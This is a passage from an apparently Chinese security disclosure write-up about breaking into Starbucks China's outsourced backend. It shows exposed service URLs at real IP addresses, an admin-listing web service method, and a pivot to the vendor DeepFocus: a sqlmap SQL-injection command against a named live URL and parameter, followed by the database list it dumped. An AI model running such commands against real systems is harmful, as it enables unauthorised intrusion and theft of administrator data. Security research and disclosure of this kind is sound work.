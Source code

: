     
    
    // JavaScript Document var domainMSRURL = 'http://218.80.216.34:805/'; var domainSVCURL = "http://218.80.216.34:8010/"; var domianWebURL = "http://218.80.216.34:8012/"; //domainMSRURL = "http://localhost:49960/MSR/"; document.write('

 **#6 这个服务器上的某个.svc怎么那么眼熟呢？不就是开始提到的StarbucksGCService.svc吗？**  
至此，两个关键的WebService都找到了，还有星巴克的后台

![](https://gitee.com/fuli009/images/raw/master/public/20230320134336.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230320134338.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230320134339.png)

Service1.svc 有个 GetAdminList的方法，你懂的，查询出所有后台管理员的信息

  *   *   *   *   *   *   *   *   *   * 

    
    
    public string GetAdminList(int nPageSize, int nPageIndex, out MSR.Model.MSR_Admin[] oAdminList, out int nCount)    {        GetAdminListRequest inValue = new GetAdminListRequest();        inValue.nPageSize = nPageSize;        inValue.nPageIndex = nPageIndex;        GetAdminListResponse retVal = ((IService1)(this)).GetAdminList(inValue);        oAdminList = retVal.oAdminList;        nCount = retVal.nCount;        return retVal.GetAdminListResult;    }

![](https://gitee.com/fuli009/images/raw/master/public/20230320134340.png)

###  **漏洞证明：**

 **  
**

 **#7 以战养战，信息组合**

整理一下发型，梳理一下所有信息，得到关键的因素  
上面所有的信息， 都属于测试环境的，那么接下来就需要突破到真实环境了；  
关键信息点：  
从https://180.153.48.178的SSL证书，得知星巴克的系统是外包给flipscript公司开发的，  
flipscript公司被DeepFocus公司收购了；  

![](https://gitee.com/fuli009/images/raw/master/public/20230320134346.png)

 **#8 从flipscript & DeepFocus下手**  
开启神器，发现http://cn.deepfocus.net一枚注入漏洞

  * 

    
    
    python sqlmap.py -u "https://cn.deepfocus.net/tasoap/tasoap.php?key=Fly&id=1" -p key --dbs

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    available databases [20]:                                                                                                                    [*] bugtracker[*] channelx[*] deepfocus[*] dftest[*] dnsw[*] fair[*] ftpusers[*] information_schema[*] mac[*] mmj[*] mysql[*] ra[*] TADB[*] test[*] torres[*] wordpress[*] wx[*] yioulai[*] yioulaisz[*] YOLDB
